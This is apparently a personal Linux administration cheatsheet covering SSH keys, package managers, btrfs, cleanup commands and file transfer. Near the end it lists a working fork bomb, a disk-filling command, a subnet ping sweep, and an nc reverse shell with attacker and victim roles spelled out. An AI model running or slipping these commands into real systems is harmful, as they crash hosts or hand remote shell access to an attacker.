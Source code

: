 # [cheatsheet](./README.md)

## ssh

### [add git key](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```bash
ssh-keygen -t ed25519 -C "example@gmail.com"
eval "$(ssh-agent -s)"
ssh-add ~/.ssh/id_ed25519
cat ~/.ssh/id_ed25519.pub
```

<https://github.com/settings/keys>

### generate and upload SSH

```bash
key_file=~/.ssh/filename
ssh-keygen -t ed25519 -f $key_file  # -P "password" -C "comment"
ssh-copy-id -i $key_file.pub user@host
# or mkdir -p ~/.ssh/ && editor ~/.ssh/authorized_keys
```

## package managers

### apt

```bash
# show installed https://askubuntu.com/q/2389
apt-mark showmanual
# or better
zgrep 'Commandline: apt' /var/log/apt/history.log /var/log/apt/history.log.*.gz
# or
zgrep -E "Commandline: apt(|-get)" /var/log/apt/history.log*
```

### pacman

#### Update old enough arch

```bash
sudo pacman --noconfirm --needed --color always -Sy archlinux-keyring
sudo pacman --noconfirm --needed --color always -Syu
# sudo pacman --needed --color always -Syu
```

#### tune parallel downloads

```bash
sudo sed -i 's/^#ParallelDownloads = [0-9]\+/ParallelDownloads = 7/' /etc/pacman.conf
```

##### revert

```bash
sudo sed -i 's/^ParallelDownloads = [0-9]\+/#ParallelDownloads = 7/' /etc/pacman.conf
```

#### AUR

```bash
sudo pacman --noconfirm --needed --color always -S git base-devel && git clone https://aur.archlinux.org/yay-bin.git && cd yay-bin && makepkg -si --noconfirm && cd - && rm -rf yay-bin
```

#### [mirrors choose](https://wiki.archlinux.org/title/mirrors#Fetching_and_ranking_a_live_mirror_list)

```bash
sudo yay -S --color always rate-mirrors-bin
export TMPFILE="$(mktemp)"; \
    sudo true; \
    rate-mirrors --save=$TMPFILE arch --max-delay=43200 \
      && sudo mv /etc/pacman.d/mirrorlist /etc/pacman.d/mirrorlist-backup \
      && sudo mv $TMPFILE /etc/pacman.d/mirrorlist
```

### dnf

#### clean

```bash
sudo dnf clean all
```

### rust

#### rustup

##### TODO

- [profile](https://rust-lang.github.io/rustup/concepts/profiles.html)
  - minimal?
- PATH

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
# or proto install rust
```

#### software

```bash
cargo install cargo-update
cargo install-update -a
```

## btrfs

```bash
sudo btrfs fi usage /

sudo btrfs balance start --full-balance --bg /
sudo btrfs balance status /
```

## distrobox

```bash
# astra linux
distrobox create --name astra --image registry.astralinux.ru/astra/ubi18:latest
```

## partitions

- `sudo cfdisk /dev/...`
  - `sudo parted`
- `nix-shell -p ntfs3g --run 'sudo ntfsfix /dev/nvme0n1p3'`
  - `nix-shell -p ntfs3g --run 'sudo ntfsfix /dev/nvme0n1p3 --clear-dirty'`

## commands

### [drop ram caches](https://linuxconfig.org/clear-cache-on-linux)

`sudo sysctl vm/drop_caches=3`

### [download "whole" site](https://pingvinus.ru/note/wget-download-sites) ([alt](https://superuser.com/q/1672776))

```bash
# set recursion depth manually
wget -r -k -l 7 -p -E -nc http://site.com/
# OR automatic
wget -mpEk http://site.com/
```

### check size of files at folder

```bash
# current folder
du . -hcd 1 | sort -hr
# current folder with files (use apparent sizes, rather than disk usage)
du . -hacd 1 --apparent-size | sort -hr
# all files in that folder recursively
du . -ha | sort -hr
```

### grep search in dir recursively

TODO add find or strings example

```bash
grep -rnw 'dir/' -e 'search'
```

### [dos2unix4folder](https://stackoverflow.com/a/11929475/15844518)

```bash
find . -type f -print0 | xargs -0 dos2unix -ic0 | xargs -0 dos2unix -b
# or for git repos
git ls-files | xargs dos2unix -ic0 | xargs dos2unix -b
```

### [bleachbit clear](https://askubuntu.com/q/671798)

```bash
sudo bleachbit --list | grep -E "[a-z0-9_\-]+\.[a-z0-9_\-]+" | grep -v system.free_disk_space | xargs sudo bleachbit --clean
```

### [clean running docker containers logs (also there is logs rotating config TODO)](https://stackoverflow.com/q/41091634)

```bash
sudo sh -c "truncate -s 0 /var/lib/docker/containers/*/*-json.log"
```

### [show motd](https://askubuntu.com/q/319528)

```bash
run-parts /etc/update-motd.d
```

### kill died terminals

unknown source

```bash
ps aux | grep sshd | grep "\w*@pts/.*" | awk {'print $2'} | xargs kill -9
```

### [cron based autoclean](https://crontab.guru/#0_0_*_*_*)

```bash
sudo crontab -e
# ---
0 0 * * * sh -c "truncate -s 0 /var/lib/docker/containers/*/*-json.log"
0 0 * * * bleachbit --list | grep -E "[a-z0-9_\-]+\.[a-z0-9_\-]+" | xargs bleachbit --clean
```

### linux fork bombs

```bash
# spams function calls
:(){ :|:& };:
# redirect yes output to "no" file
yes > no
```

### Ping whole subnet

```bash
subnet='46.175.145'; for i in {0..255}; do timeout 0.5 ping -c1 $subnet.$i; done
```

### send nc/netcat/croc etc

- use GNU or OpenBSD version of `nc` (not libressl)
- `nc` reverse shell
  - attacker listens `nc -vlp SERVER_PORT 2>&1 | tee -a console.log`
  - victim sends `nc SERVER_IP SERVER_PORT -e /bin/sh`
- [`nc` send file](https://superuser.com/a/98323)
  - `cat FILE_NAME | netcat SERVER_IP SERVER_PORT`
  - `nc -l -p SERVER_PORT -q 1 > FILE_NAME < /dev/null`
- [croc](https://github.com/schollz/croc)
  - `curl https://getcroc.schollz.com | bash`
    - alt with `wget -O- https://getcroc.schollz.com | bash`
    - if install is [failed](https://github.com/schollz/croc/issues/765), use unpacked binary from `/tmp/` folder (it is not deleted after failed install)
